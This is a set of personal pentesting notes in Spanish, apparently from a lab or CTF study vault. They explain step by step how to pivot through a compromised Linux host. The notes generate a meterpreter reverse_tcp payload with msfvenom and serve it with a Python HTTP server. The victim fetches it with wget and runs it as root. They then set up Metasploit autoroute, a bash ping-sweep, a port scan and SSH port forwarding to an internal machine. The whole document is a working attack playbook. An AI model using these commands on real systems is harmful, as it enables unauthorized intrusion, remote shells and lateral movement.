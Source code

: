 
Primero debemos de reconocer en la red en la que se encuentra nuestra maquina.
`arp-scan -I eth0 --localnet`

Después de todo debemos de hacer la intrusión a la maquina. Una vez tenemos una shell estable debemos de crear en[[00. Apuntes/01. Herramientas/MSFVENOM|MSFVENOM]] un payload que nos de una sesión de meterpreter en [[METASPLOIT]].
El payload es el siguiente.
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP_Atcante> LPORT=4444 -f elf -b '\x00\x0a\x0d' -o virus`

Una vez lo tengamos nos lo compartimos con la maquina victima, levantamos un servidor en Python.
`python3 -m http.server 80`

Y en la maquina victima usamos wget para obtener el fichero.
`wget <IP_Atacante>/virus`

En la maquina atacante debemos de abrir el [[METASPLOIT]] para poder recibir la sesión de meterpreter.
Usaremos el modulo de MultiHandler.
`use /multi/handler`
Configuramos los siguientes parámetros.
`set LHOST <IP_Atacante>`
`set LPORT <Puerto_Configurado_MSFVENOM>`
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

En la maquina intermedia debemos dar permisos de ejecución al archivo `virus` usaremos el comando `chmod +x virus`.
antes debemos de escalar privilegios en la maquina intermediaria para ser root.
Una vez hallamos escalado privilegios usamos el comando `./virus` para ejecutar el payload mientras en la maquina atacante esta corriendo el modulo que nos dará una sesión de meterpreter.

Una vez ya tenemos la intrusión de la maquina intermedia tenemos que ver que interfaces de red tiene con el comando `ipconfig`, pasamos la sesión de meterpreter a segundo plano con `ctrl + z`, para ver el id de sesión debemos usar `sessions -l`.

Usaremos el modulo para enrutar el trafico con el comando.
`use /multi/manage/autoroute`

Nos pide configurar el id de sesión, usaremos el comando `set SESSION <numero>`.
Ejecutamos el comando `run` para que se enrute el trafico.
Usaremos el comando `route` para ver la tabla de routing.

Ahora deberemos de conocer los hosts disponibles en la red interna. Tendremos que crear el siguiente script en bash, le llamaremos `scaner.sh`.
```` bash                                                               
#!/bin/bash

for i in {1..255}; do
        timeout 1 bash -c "ping -c 1 10.10.10.$i" >/dev/null
        if [ $? -eq 0 ]; then
                echo "El host 10.10.10.$i esta activo"
        fi
done

````

En el código hay que adaptar la IP a la que se le llama para hacer ping.
Ahora nos lo debemos compartir con un servidor de Python.
`python3 -m http.server 80`

Y en el [[METASPLOIT]] deberemos de ejecutar la sesión que teníamos suspendida con el comando.
`sessions -i <id>`

Con el comando `shell` ejecutamos el siguiente comando par atraernos el archivo.
`wget <IP_atacante>/scaner.sh`

Le tenemos que dar permisos de ejecución con el comando `chmod +x <nombre_archivo>`
Y una vez dado los permisos lo podemos ejecutar con el comando `./<nombre_archivo>`

Deberemos de probar el siguiente escaneo contra todas las maquinas, en este caso ya se sabe que maquina es asi que lo haremos solo hacia ella.

Volvemos a suspender la sesión de meterpreter con el comando `ctrl +z`
Debemos usar el modulo para hacer un escaneo de puertos.
`use scanner/portscan/tcp`

Vemos las opciones de configuración y configuramos los siguientes campos.
`set RHOST <IP_Maquina_RedInterna_Objetivo>`
Enjutamos el modulo con el comando `run`
*DEBEMOS DEJAR EL ESCANEO HASTA EL FINAL*

Ahora debemos hacer PortForwarding para que el puerto X de la maquina victuima vaya el puerto X de la maquina local.

Entramos en la sesión de meterpreter con el comando `sessions -i <id>`

`portfwd add -l 222 -p 22 -r <ip_victima>` Traer puerto 22 maquina victima al puerto 222 de la maquina local.

Ahora desde la maquina atacante podemos accedr por ssh usando el comando siguiente.
`ssh dimitri@127.0.0.1 -p 222`
- dimitri -> usuario ya conocido
- 127.0.0.1 -> localhost, porque hemos hecho portforwarding
- -p 222 -> puerto portforwarding

*TODOS LOS ATAQUES QUE SE QUIERAN HACER A ESA MAQUINA SE TIENE QUE USAR EL LOCALHOST CON EL PÙERTO CONFIGURADO*
